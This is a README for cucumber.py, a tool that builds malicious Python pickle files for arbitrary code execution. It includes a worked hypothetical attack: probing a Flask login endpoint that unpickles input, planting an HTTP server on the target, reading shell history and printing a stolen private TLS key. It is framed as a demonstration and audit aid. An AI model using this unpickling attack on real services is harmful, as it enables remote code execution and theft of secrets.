 # cucumber.py
---

cucumber.py, ACE via Python pickle unpacking. Written by
Oelin <me.oelin@gmail.com>.

### Command

```
cucumber.py [path]
```
 
### Description

This script exploits features of Python's popular serialisation library, pickle in such a way to cause the execution of arbitrary code by programs at run-time. Simply specify the path to a file containing Python source code. An exploitative pickle serialisation will then be written to stdout (ouput). If another Python program attempts to unpack this
serialisation, the original code given will be executed. Note that this script should only be used for demonstratory purposes. It is not a security hacking tool!

### Usage

In the following example, a script to start a HTTP web server on port 8000 is crafted into a pickle serialisation. When subject to `pickle.loads()` (i.e by a vulnerable program), the script will be executed. The script can also be found in this repository at
`./scripts/httpd.py`.

```
$ ls
httpd.py
$ ./cucumber.py httpd.py > httpd.pickle
$ ls
httpd.py httpd.pickle
```
After an exploitative serialisation has been created, it can be used to audit target programs for vulnerabilities, namely those which do not perform adequate input validation. Shown below, is a hypothetical scenareo where an attacker manages to obtain the private TLS key of a Flask web server. The API endpoint `/login` does not provide validation of input data yet at some point invokes `pickle.loads()` on said data. By sending `httpd.pickle` as input, the endpoint will readily transfers control to the malicious script. The attacker may then connect over port 8000 to read arbitrary files on the target machine, including private ones.

```
$ curl https://api.alice.com/robots.txt
User-agent: *
Disallow: /users
Allow: /login
Disallow: /login?u=*
Allow: /search

$ curl https://api.alice.com/login?u=bob
{"state": "error", "reason": "base64 decode error"}

$ user=`echo bob | base64`
$ curl https://api.alice.com/login?u=$user
{"state": "error", "reason": "unpickling failed"}

$ user=`cat httpd.pickle`
$ curl https://api.alice.com/login?u=$user

...

^C
$ curl -I http://api.alice.com:8000/
HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.6.7
Date: Thu, 28 Mar 2019 20:31:13 GMT
Content-type: text/html; charset=utf-8
Content-Length: 1907

$ curl http://api.alice.com:8000/.bash_history
.
.
.
ls
find . | grep 'key.pem'
cd /srv/http/alice.com/backup/tls
cat key.pem
vim
cd ~
.
.
.

$ curl http://api.alice.com:8000/srv/http/alice.com/backup/tls/key.pem
-----BEGIN PRIVATE KEY-----
MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQChTcy8+upAE3Nh
IGgpscmgMJaUR4PLyFxFbKNSXhSZwCEL27FtZEInRa9jcNYb4t4y272Z1xcHC311
x/JxBcOQ0EfMQmTmQP0jvfKQNA7TI4HOIKPsLS7GREtTZveqU1R7lNYR/fzhKmfn
ZELWE4PMbXelkalbuAzXbS1wo14M7T6U3kPXTbaatyIezTWCYnXJZhkK8vIszPnv
dn2Xo2i0H5NKOz5MKeUuZ3D++BawxlSQaGKiGrwvm+WCjD9BvncluMSbjwYmgXnM
l8+a1PDNPzY3s/TVoEKErNxox3jxu4HpWf70jF5soBK5yGde9s5RaYLSHQwf8969
crwx+6krAgMBAAECggEANn6vRcVLcJxhpZWqOzPaV2ky5iOHDkjBi57ZSpGISi1T
vMrbFYcCpnvvdhv/6enqgaolUx0MpY+nMix75t04pesH5qUjq3qXSwT4NumvfHuJ
dhcm6jqVi9w0ypeF4qBGcX3mGKwDTBrkgZMo1WRAacct3dzpJ5h1li5HZL98ncbb
onZwGKcGoAR4rfT0r+ijOs499OgGq3mRTceLK+PX0qnNU30B/IhwAvuSfKN4IiRH
d88tB+ZaasO+ZMTK8aEuM0GAgIl7OJLDswWaM2+AwawNrOyUaYHNSoQ0OPYc4/l7
CaoP6/ITnv5UrGGVKZbqVEo2YgGkHEDq7nPVc/flwQKBgQDU3cEv4q6Soue4ggwl
C5DlxHAu76ffQ55sU9L1IBUPS22Mf1td35CIVH5+Dj1Z9i3iSdACdFGs2NFxUGhC
CGICP41Uf5GG8YvcQh4KKJRTWeLLCr9RY4gK5vWeQE31JlzK18MfcrCXR058e+jA
MmQO6ZwG8OrxaZ6UsywvmNOXiwKBgQDB/UuwxgBOeGqGFdCzWtWMydNkbwEUjvho
3uL8wVWso8th+Bc1SPKd9wpEF+oZT/mhtvYc38JB9Q2eAri6uYEWfPrMXTmE9tje
U6TZhJf0Qg/NmATqCzkCmXSFIBaRFBSrlfD+fniFWw+GI4gntbNjjXFwxwHF0san
sK6uFblo4QKBgQCqlVbmb+rkGeZGJvliioVAjA42ntlRgtenCfmpdF9MFW8hw0HN
1YX2qnd/vxuNR0n36JzoCp0VPd+BxiT2nc8k7BbvGxfdIx6okNeP3nsW3JZxjhhJ
OdDgo7s7aV7P0UFVUFjOj9NSN9N+0LFxrDAg/zaJHXG5qqFpmrgTII6YBwKBgEs2
rFwzyPaj1Zl7Z9nChD38Gsw8Bc00ybfPg27AfzlaoIaxrD3qtLbui7pvE0MRMRa0
W6RCVY1BODBlmb48IoLXnl4SXzTgiKFbCPWVZV09J+ds46rjAw2w9e6PzHAfuwv0
LOZfntcFwXUe3bGXz5/vvWYeot9So9dst62jmqnBAoGBAJaCzGZ+/R3ndaAWLrzY
L2wlhdVMMdQ+CkLCgomaEVHvAgnxFXPCyLMslCw55DwJTqLZUnkZ+0ME1fywHxkU
vefy74c1qNFFi6JId3zkjFnTK0b+o1JsLLE9CFUOsJfOQuHDgCDMwSadcO6cdkxp
69cRB+4sChk3oWcFv7E8/euY
-----END PRIVATE KEY-----
$
$ Alice has been pwnd!
```
